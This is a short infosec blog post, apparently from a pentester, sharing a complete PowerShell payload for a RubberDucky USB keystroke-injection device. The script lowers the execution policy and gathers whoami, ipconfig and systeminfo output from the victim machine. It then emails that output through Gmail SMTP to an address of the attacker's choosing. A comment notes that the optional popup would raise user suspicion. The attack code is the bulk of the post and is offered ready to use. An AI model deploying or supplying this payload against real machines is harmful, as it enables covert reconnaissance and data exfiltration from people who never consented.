 ```yaml
---
title: "RubberDucky Powershell Payload"
date: "2014-12-22T12:00:00-04:00"
url: "/posts/rubber-ducky-powershell-payload"
categories:
- infosec
tags:
- powershell
- pentesting
---
```


On a recent engagement I supported the lead by developing a PowerShell payload
for a [RubberDucky][RubberDucky]. The gist is that it will run a handful of
standard Windows commands and then e-mail the results to a specified address. It
proved to be very helpful and I've included it below with comments:

~~~~
	# Set execution policy to allow unrestricted script scope
	Set-ExecutionPolicy 'Unrestricted' -Scope CurrentUser -Confirm:$false
	#Create results file in current user's temp directory
	$results = $env:temp + '\results.txt'

	#Run whoami
	$who = 'whoami.exe'
	$rwho = & $who

	#Run ipconfig /all
	$ipc = 'ipconfig.exe'
	$ipcs = '/all'
	$ripc = & $ipc $ipcs

	#Run systeminfo
	$sysi = 'systeminfo.exe'
	$rsysi = & $sysi

	#Wait for systeminfo to finish
	Start-Sleep -s 5

	#Write results
	$output = $rwho + $ripc + $rsysi | Out-File $results

	#Send results to e-mail address
	$hostname = $env:computername
	$SMTPServer = 'smtp.gmail.com'
	$SMTPInfo = New-Object Net.Mail.SmtpClient($SMTPServer, 587)
	$SMTPInfo.EnableSsl = $true
	$SMTPInfo.Credentials = New-Object System.Net.NetworkCredentials('<yourusername>', '<yourpassword>')
	$ResultMail = New-Object System.Net.Mail.MailMessage
	$ResultMail.From = '<fromaddress>'
	$ResultMail.To.Add('<destinationmail>')
	$ResultMail.Subject = "Mail Subject"
	$ResultMail.Body = "Mail Body"
	$ResultMail.Attachments.Add($results)
	$SMTPInfo.Send($ResultMail)

	#Optional pop-up confirmation box
	#Note: This WILL raise user suspicion
	$wshell = New-Object -ComObject Wscript.Shell
	$wshell.Popup("Operation Complete.", 0, "OK", 0x1)
~~~~

Merry Christmas and Happy Holidays!

[RubberDucky]: http://hakshop.myshopify.com/products/usb-rubber-ducky-deluxe
